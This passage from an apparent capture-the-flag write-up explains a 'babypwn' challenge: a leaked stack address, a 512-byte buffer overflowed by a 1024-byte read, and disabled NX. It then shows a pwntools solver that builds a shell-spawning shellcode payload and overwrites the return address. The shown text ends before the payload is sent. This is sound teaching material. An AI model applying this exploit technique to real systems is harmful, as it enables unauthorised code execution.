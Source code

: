 The program will leak the stack address by printing it using the printf() with
“%p” format (it will print the address of the username variable). Then, the
program will ask the user to input data using the read() function with 1024
bytes as it maximal input size, and it will store the data into the username
variable. However, since the variable ‘username’ can only hold data up to 512
bytes, this results in a buffer overflow vulnerability.

Due to the NX protection being disabled (which means the stack has permission
rwx), we can inject a shellcode into the payload to gain a shell. To obtain
the shellcode, simply overwrite the saved return instruction pointer (RIP)
with the address of the ‘username’ variable using a Buffer Overflow.

Solver:

```  
#!/usr/bin/env python3  
# -*- coding: utf-8 -*-  
from pwn import *  
from os import path  
import sys

# ==========================[ Information  
DIR = path.dirname(path.abspath(__file__))  
EXECUTABLE = "/babypwn"  
TARGET = DIR + EXECUTABLE  
HOST, PORT = "52.59.124.14", 10020  
REMOTE, LOCAL = False, False

# ==========================[ Tools  
elf = ELF(TARGET)  
elfROP = ROP(elf)

# ==========================[ Configuration  
context.update(  
   arch=["i386", "amd64", "aarch64"][1],  
   endian="little",  
   os="linux",  
   log_level = ['debug', 'info', 'warn'][2],  
   terminal = ['tmux', 'split-window', '-h'],  
)

# ==========================[ Exploit

def exploit(io, libc=null):  
   if LOCAL==True:  
       #raw_input("Fire GDB!")  
       if len(sys.argv) > 1 and sys.argv[1] == "d":  
           choosen_gdb = [  
               "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg  
               "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda  
               "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef  
               ][0]  
           cmd = choosen_gdb + """  
           b *main+142  
           """  
           gdb.attach(io, gdbscript=cmd)

   io.recvuntil(b"Your game slot is at: ")  
   LEAKED_STACK = int(io.recvuntil(b"\n", drop=True).decode(), 16)  
   print("LEAKED_STACK                 :", hex(LEAKED_STACK))

   RIP_OFFSET = 0x200+8 # sub rsp, 0x200 (+8 to overwrite rbp)  
   p = b""  
   p += asm(shellcraft.sh()).ljust(RIP_OFFSET)  
   p += p64(LEAKED_STACK)  
```